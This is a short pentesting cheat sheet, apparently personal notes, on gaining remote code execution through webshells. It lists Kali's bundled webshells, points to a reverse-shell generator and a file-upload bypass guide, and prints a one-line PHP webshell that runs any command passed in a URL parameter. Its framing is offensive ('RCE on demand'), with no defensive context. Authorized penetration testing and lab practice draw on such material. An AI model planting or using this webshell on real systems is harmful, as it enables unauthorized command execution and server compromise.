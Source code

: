 ## Intro
Who doesn't like the RCE on demand?

List webshells available on Kali
```
tree /usr/share/webshells/
```

## Revshells
Great reverse shell generator

https://www.revshells.com/

## File Upload bypass
If website blocks upload of your webshell, try this

https://book.hacktricks.xyz/pentesting-web/file-upload

## Apache
Basic PHP webshell
```
# Take input from the URL paramter. e.g http://<IP>/shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>
```
